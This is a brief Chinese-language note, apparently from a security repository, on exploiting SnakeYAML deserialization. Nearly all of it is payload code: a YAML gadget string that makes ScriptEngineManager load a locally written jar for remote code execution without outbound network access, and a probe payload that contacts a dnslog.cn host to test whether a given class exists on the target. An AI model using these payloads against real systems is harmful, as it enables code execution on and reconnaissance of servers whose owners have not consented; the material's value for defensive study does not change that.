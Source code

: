 # snakeyaml

## 不出网利用
>通过写文件然后本地加载rce

//todo 写一个工具 去完成


https://xz.aliyun.com/t/10655

加载本地
```java
String data2 = "!!javax.script.ScriptEngineManager [\n" +
                "  !!java.net.URLClassLoader [[\n" +
                "    !!java.net.URL [\"file:E:/yaml-payload.jar\"]\n" +
                "  ]]\n" +
                "]";
```

## 判断类存在
```java
 String poc = "[!!判断的类全类名 []: 0, !!java.net.URL [null, \"http://ixvoxg.dnslog.cn\"]: 1]";
```
